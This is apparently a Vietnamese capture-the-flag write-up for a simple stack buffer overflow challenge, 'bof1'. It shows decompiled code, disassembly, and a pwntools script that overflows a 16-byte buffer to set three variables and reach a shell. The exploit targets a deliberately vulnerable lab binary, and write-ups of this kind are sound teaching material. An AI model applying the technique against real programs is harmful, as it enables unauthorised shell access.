


**1. Tìm lỗi**

Chạy thử file ta được:



Dùng lệnh 'file' kiểm tra:

```
bof1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5074553c3715a233fb2abab13a64491c3c7e1a3b, for GNU/Linux 3.2.0, not stripped
```

--> Mở bằng IDA64 ta được:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v5; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+2Ch] [rbp-4h]

  v8 = 0;
  v7 = 0LL;
  v6 = 0LL;
  v5 = 0LL;
  init(argc, argv, envp);
  printf("> ");
  v8 = read(0, buf, 0x30uLL);
  if ( buf[v8 - 1] == 10 )
    buf[v8 - 1] = 0;
  printf("a = %ld\n", v7);
  printf("b = %ld\n", v6);
  printf("c = %ld\n", v5);
  if ( v7 && v6 && v5 )
    system("/bin/sh");
  return 0;
}
```

Đoạn mã khai báo một mảng buf có kích thước 16 byte và các biến v5, v6, v7 và v8. Biến v8 được khởi tạo bằng 0 và các biến còn lại được khởi tạo bằng 0.

Hàm read được gọi để đọc dữ liệu từ bàn phím và lưu trữ vào mảng buf. Tham số đầu tiên là số tham chiếu đến bàn phím (0), tham số thứ hai là mảng buf và tham số thứ ba là kích thước tối đa của dữ liệu được đọc (0x30uLL = 48 byte) mà biến buf được khai báo 16 byte nên có lỗi bof.

Nếu ký tự cuối cùng trong chuỗi được nhập là ký tự xuống dòng (10), nó sẽ được thay thế bằng ký tự NULL (0).

Nếu các biến v5, v6 và v7 đều khác 0, hàm system được gọi để thực thi.

**2. Ý tưởng**

Nhập tràn biến buf gồm 16 byte rác sau đó thay đổi giá trị biến v5, v6, v7 trên đó sao cho khác 0 để thực hiện system.

**3. Khai thác**

```
0x0000000000401223 <+70>:    lea    rax,[rbp-0x30]
0x0000000000401227 <+74>:    mov    edx,0x30
0x000000000040122c <+79>:    mov    rsi,rax
0x000000000040122f <+82>:    mov    edi,0x0
0x0000000000401234 <+87>:    call   0x4010a0 <read@plt>
```

Biến buf cách rbp là 0x30.

```
   0x00000000004012a2 <+197>:   cmp    QWORD PTR [rbp-0x10],0x0
   0x00000000004012a7 <+202>:   je     0x4012c3 <main+230>
   0x00000000004012a9 <+204>:   cmp    QWORD PTR [rbp-0x18],0x0
   0x00000000004012ae <+209>:   je     0x4012c3 <main+230>
   0x00000000004012b0 <+211>:   cmp    QWORD PTR [rbp-0x20],0x0
   0x00000000004012b5 <+216>:   je     0x4012c3 <main+230>
```

Các biến v5, v6, v7 cách rbp là: 0x20, 0x18, 0x10. Tính làm gì rồi cũng nhập cho nó khác 0 nên nhập tràn từ buf đến rbp là chắc chắn được.

Ta có script như sau:

```
from pwn import *

r = process('./bof1')

payload = b'a'*0x30
r.sendafter(b'> ', payload)
r.interactive()
```

**4. Lấy flag**

